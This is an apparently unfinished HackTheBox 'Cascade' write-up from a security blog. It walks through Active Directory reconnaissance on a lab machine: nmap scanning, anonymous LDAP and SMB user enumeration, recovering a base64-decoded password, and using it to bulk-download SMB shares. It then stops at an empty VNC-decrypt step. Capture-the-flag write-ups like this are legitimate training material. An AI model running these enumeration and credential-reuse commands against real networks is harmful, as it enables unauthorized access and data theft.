 ```yaml
---
layout: post
title: HackTheBox Cascade
subtitle: Acitive Directory 101 Cascade Exam WriteUp
author: g3rm
categories: HTB
banner:
  image: /assets/images/banners/home.gif
  opacity: 0.618
  background: "#000"
  heading_style: "font-size: 4.25em; font-weight: bold;"
  subheading_style: "color: gold"
tags:
  - HTB
  - WriteUp
sidebar:
---
```

## Summary
![](/assets/images/posts/2025-03-04-Cascade/e62731204ae8e75e2ba8c8157bcd0580_MD5.jpeg)

## Target - 10.129.192.253
### Open Port
```bash
nmap -sC -sV -Pn -p- 10.129.192.253 -oN Cascade_allport
```
![](/assets/images/posts/2025-03-04-Cascade/d068db01853b01b1190c5f0893e7b02d_MD5.jpeg)
### LDAP Enumeration Using Ldapsearch
```bash
# username 찾기
crackmapexec smb 10.129.192.253 -u '' -p '' --users

# 위에서 찾은 username으로 Ldapsearch
ldapsearch -x -H ldap://10.129.192.253 -b 'DC=cascade,DC=local' -D '' -w '' | grep -i r.thompson
ldapsearch -x sAMAccountName=r.thompson -H ldap://10.129.192.253 -b 'DC=cascade,DC=local' -D '' -w ''

# base64 decoding
rY4n5eva
```

![](/assets/images/posts/2025-03-04-Cascade/da2a3a579a986c400ebd047f5b8475ca_MD5.jpeg)
![](assets/images/posts/2025-03-04-Cascade/a6d72c86ee2c0b9b205f1195837f5c8b_MD5.jpeg)
### SMB Enum (r.thompson Auth)
```bash
crackmapexec smb 10.129.192.253 -u 'r.thompson' -p 'rY4n5eva' --shares
crackmapexec smb 10.129.192.253 -u 'r.thompson' -p 'rY4n5eva' --spider Data --regex .

# 싹다 가져오기
smbclient \\\\10.129.192.253\\Data -U 'r.thompson' --password='rY4n5eva'
smb: \> RECURSE ON
smb: \> PROMPT OFF
smb: \> mget *
```
![](assets/images/posts/2025-03-04-Cascade/bbf9d5955c0dc34aa49627a6d170bfbd_MD5.jpeg)
![](assets/images/posts/2025-03-04-Cascade/d65a2eb43a96c57e046d458ac7dc5716_MD5.jpeg)
![](assets/images/posts/2025-03-04-Cascade/c063e77df0b824b11bddc95e5b68fe55_MD5.jpeg)
![](assets/images/posts/2025-03-04-Cascade/8ee32c59ed3ec56f3938512a9ea94f3b_MD5.jpeg)
![](assets/images/posts/2025-03-04-Cascade/1689b05737a050bda11825906eba2c92_MD5.jpeg)

### VNC Decrypt
```bash
```
![](Pasted%20image%2020250305191411.png)